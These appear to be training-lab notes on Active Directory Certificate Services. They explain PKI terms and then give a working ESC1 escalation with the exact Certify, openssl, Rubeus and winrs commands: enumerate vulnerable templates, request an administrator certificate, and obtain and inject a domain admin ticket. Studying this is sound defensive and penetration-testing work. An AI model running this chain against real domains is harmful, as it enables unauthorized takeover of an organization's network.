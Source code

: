 - Active Directory Certificate Services (AD CS) enables use of Public Key Infrastructure (PKI) in active directory forest.
- AD CS helps in authenticating users and machines, encrypting and signing documents, filesystem, emails and more.
- "AD CS is the Server Role that allows you to build a public key infrastructure (PKI) and provide public key cryptography, digital certificates, and digital signature capabilities for your organization."

- CA - The certification authority that issues certificates. The server with AD CS role (DC or separate) is the CA.
- Certificate - Issued to a user or machine and can be used for authentication, encryption, signing etc.
- CSR - Certificate Signing Request made by a client to the CA to request a certificate.
- Certificate Template - Defines settings for a certificate. Contains information like - enrolment permissions, EKUs, expiry etc.
- EKU OIDs - Extended Key Usages Object Identifiers. These dictate the use of a certificate template (Client authentication, Smart Card Logon, SubCA etc.)

![[ADCS.png]]

- We can use the Certify tool (https://github.com/GhostPack/Certify) to enumerate (and for other attacks) AD CS in the target forest:
```
Certify.exe cas
```
- Enumerate the templates.:
```
Certify.exe find
```
- Enumerate vulnerable templates:
```
Certify.exe find /vulnerable
```

- In moneycorp, there are multiple misconfigurations in AD CS.
- Common requirements/misconfigurations for all the Escalations that we have in the lab (ESC1 and ESC3)
	- CA grants normal/low-privileged users enrollment rights
	- Manager approval is disabled
	- Authorization signatures are not required
	- The target template grants normal/low-privileged users enrollment rights

### AD CS - ESC1
- The template "HTTPSCertificates" has ENROLLEE_SUPPLIES_SUBJECT value for msPKI-Certificates-Name-Flag.
```
Certify.exe find /enrolleeSuppliesSubject
```
- The template "HTTPSCertificates" allows enrollment to the RDPUsers group. Request a certificate for DA (or EA) as studentx
```
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator
```
- Convert from cert.pem to pfx (esc1.pfx below) and use it to request a TGT for DA (or EA).
```
openssl.exe pkcs12 -in C:\AD\Tools\esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1.pfx

Rubeus.exe asktgt /user:administrator /certificate:esc1.pfx /password:SecretPass@123 /ptt
```
- check if we can access DC
```
winrs -r:dcorp-dc cmd /c set username
```